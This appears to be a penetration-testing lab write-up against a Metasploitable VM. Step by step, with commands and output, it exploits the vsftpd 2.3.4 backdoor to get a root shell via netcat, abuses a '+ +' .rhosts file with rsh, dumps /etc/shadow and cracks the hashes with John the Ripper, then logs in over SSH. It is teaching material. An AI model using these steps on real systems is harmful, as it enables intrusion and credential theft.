




# BACKDOOR EXPLOIT!!!!

---

## Exploit Setup and Execution

Now we can use the exploit for vsftpd:

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
```

Target the Metasploit's IP:

```bash
set RHOSTS 192.168.100.10
```

Run the exploit!:

```bash
run
```

Metasploit reports no session created because the exploit didn't trigger the backdoor.

**Result:**

```
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > run
[*] 192.168.100.10:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 192.168.100.10:21 - USER: 331 Please specify the password.
[*] Exploit completed, but no session was created.
```

---

## Manual Access Check

We need to manually check if we got access.

Use netcat to connect to Metasploit's IP on port 21:

```bash
nc 192.168.100.10 21
```

**Result:**

```
220 (vsFTPd 2.3.4)
```

The backdoor in vsftpd 2.3.4 activates when you send a specially crafted username containing `:)`.

Run:

```
USER test:)
```

**Result:**

```
331 Please specify the password.
```

Here we can type whatever password but must start with `PASS`, e.g.:

```
PASS whatever
```

---

## Connecting to the Backdoor Shell

The backdoor doesn’t use FTP port (21) for the shell — it opens a separate service on TCP port 6200.

In a new terminal, scan port 6200:

```bash
sudo nmap -p 6200 192.168.100.10
```

Connect to port 6200:

```bash
nc 192.168.100.10 6200
```

Check if we have root shell access by running:

```
whoami
uname -a
id
```

**Result:**

```
┌──(noah㉿kali)-[~]
└─$ nc 192.168.100.10 6200
whoami
uname -a
Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux
id
uid=0(root) gid=0(root)
```


---

## Now We Can Explore The Root Access Further

Run:

```bash
ls -la /root/
```

**Result:**

```
total 76
drwxr-xr-x 13 root root 4096 Jul 11 09:17 .
drwxr-xr-x 21 root root 4096 May 20  2012 ..
-rw-------  1 root root  324 Jul 11 09:17 .Xauthority
lrwxrwxrwx  1 root root    9 May 14  2012 .bash_history -> /dev/null
-rw-r--r--  1 root root 2227 Oct 20  2007 .bashrc
drwx------  3 root root 4096 May 20  2012 .config
drwx------  2 root root 4096 May 20  2012 .filezilla
drwxr-xr-x  5 root root 4096 Jul 11 09:17 .fluxbox
drwx------  2 root root 4096 May 20  2012 .gconf
drwx------  2 root root 4096 May 20  2012 .gconfd
drwxr-xr-x  2 root root 4096 May 20  2012 .gstreamer-0.10
drwx------  4 root root 4096 May 20  2012 .mozilla
-rw-r--r--  1 root root  141 Oct 20  2007 .profile
drwx------  5 root root 4096 May 20  2012 .purple
-rwx------  1 root root    4 May 20  2012 .rhosts
drwxr-xr-x  2 root root 4096 May 20  2012 .ssh
drwx------  2 root root 4096 Jul 11 09:17 .vnc
drwxr-xr-x  2 root root 4096 May 20  2012 Desktop
-rwx------  1 root root  401 May 20  2012 reset_logs.sh
-rw-r--r--  1 root root  138 Jul 11 09:17 vnc.log
```


This gives us access to the full root directory.

---

## Checking for Remote Trust in `.rhosts`

Run:

```bash
cat /root/.rhosts
```

**Result:**

```
+ +
```

Meaning: `.rhosts` contains `+ +` which is a huge security risk because it means root trusts all hosts and users for remote access via `rsh` or `rlogin` without needing a password.

Test this:

Run in Kali terminal (not exploit shell):

```bash
rsh 192.168.100.10 -l root
```

**Result:**

```
Last login: Fri Jul 11 10:24:15 EDT 2025 from 192.168.100.10 on pts/1
Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

To access official Ubuntu documentation, please visit:
http://help.ubuntu.com/
You have mail.
root@metasploitable:~#
```

Just like that, we have remote root access!
 


---

## Extracting and Cracking Password Hashes

Use:

```bash
cat /etc/shadow
cat /etc/passwd
```

**Results:**

(Excerpt from `/etc/shadow`)

```
root:$1$/avpfBJ1$x0z8w5UF9Iv./DR9E9Lid.:14747:0:99999:7:::
daemon:*:14684:0:99999:7:::
bin:*:14684:0:99999:7:::
sys:$1$fUX6BPOt$Miyc3UpOzQJqz4s5wFD9l0:14742:0:99999:7:::
...
msfadmin:$1$XN10Zj2c$Rt/zzCW3mLtUWA.ihZjA5/:14684:0:99999:7:::
postgres:$1$Rw35ik.x$MgQgZUuO5pAoUvfJhfcYe/:14685:0:99999:7:::
user:$1$HESu9xrH$k.o3G93DGoXIiQKkPmUgZ0:14699:0:99999:7:::
service:$1$kR3ue7JZ$7GxELDupr5Ohp6cjZ3Bu//:14715:0:99999:7:::
...
```

(Excerpt from `/etc/passwd`)

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
...
msfadmin:x:1000:1000:msfadmin,,,:/home/msfadmin:/bin/bash
postgres:x:108:117:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
user:x:1001:1001:just a user,111,,:/home/user:/bin/bash
service:x:1002:1002:,,,:/home/service:/bin/bash
...
```

---

## Preparing Files for John the Ripper

Copy contents into Kali files: `shadow.txt` and `passwd.txt`.

Combine them for John:

```bash
unshadow passwd.txt shadow.txt > unshadowed.txt
```

Run John the Ripper:

```bash
john unshadowed.txt
```

**Result:**

```
┌──(noah㉿kali)-[~]
└─$ john unshadowed.txt

Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 7 password hashes with 7 different salts (md5crypt, crypt(3) $1$ (and variants) [MD5 512/512 AVX512BW 16x3])
Will run 8 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
user             (user)
postgres         (postgres)
msfadmin         (msfadmin)
service          (service)
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
123456789        (klog)
batman           (sys)
Proceeding with incremental:ASCII
6g 0:00:01:18  3/3 0.07692g/s 1070Kp/s 1070Kc/s 1070KC/s keaw1l..ketpmh
6g 0:00:01:33  3/3 0.06451g/s 1074Kp/s 1074Kc/s 1074KC/s tubongi..tutyp14
6g 0:00:03:10  3/3 0.03157g/s 1079Kp/s 1079Kc/s 1079KC/s nhrc89..nhhf0d
6g 0:00:03:30  3/3 0.02856g/s 1079Kp/s 1079Kc/s 1079KC/s stezmx..stovvf
Use the "--show" option to display all of the cracked passwords reliably
```



---

## Now Lets Show Cracked Passwords

Run:

```bash
john --show unshadowed.txt
```

**Results:**

```
└─$ john --show unshadowed.txt

sys:batman:3:3:sys:/dev:/bin/sh
klog:123456789:103:104::/home/klog:/bin/false
msfadmin:msfadmin:1000:1000:msfadmin,,,:/home/msfadmin:/bin/bash
postgres:postgres:108:117:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
user:user:1001:1001:just a user,111,,:/home/user:/bin/bash
service:service:1002:1002:,,,:/home/service:/bin/bash
```

We cracked 6 passwords, 1 still left.

---

## SSH Login Using Cracked Credentials

Now let’s try SSH login using one of the cracked accounts.

We'll use the `msfadmin` account.

Since Kali's SSH client no longer supports old key exchange algorithms, override them:

```bash
ssh -oHostKeyAlgorithms=+ssh-rsa -oPubkeyAcceptedKeyTypes=+ssh-rsa msfadmin@192.168.100.10
```

It asks for the password, but since we cracked it earlier, we can log in successfully via SSH!



---

## Conclusion

In this lab, I successfully exploited the vsftpd 2.3.4 backdoor vulnerability to gain root access on the Metasploitable target. Although the Metasploit automated exploit did not create a session, manual interaction with Netcat triggered the backdoor and opened a root shell on port 6200.

From there, I explored the root directory, discovered insecure configurations like the `.rhosts` file, and used `rsh` to achieve remote root access without a password. I extracted password hashes from `/etc/shadow` and `/etc/passwd`, combined them, and cracked several passwords using John the Ripper.

Finally, I used one of the cracked credentials to SSH into the target, confirming full access. This exercise highlights how outdated services and weak security configurations can lead to complete system compromise. It also emphasizes the importance of manual verification alongside automated tools during penetration testing.
```


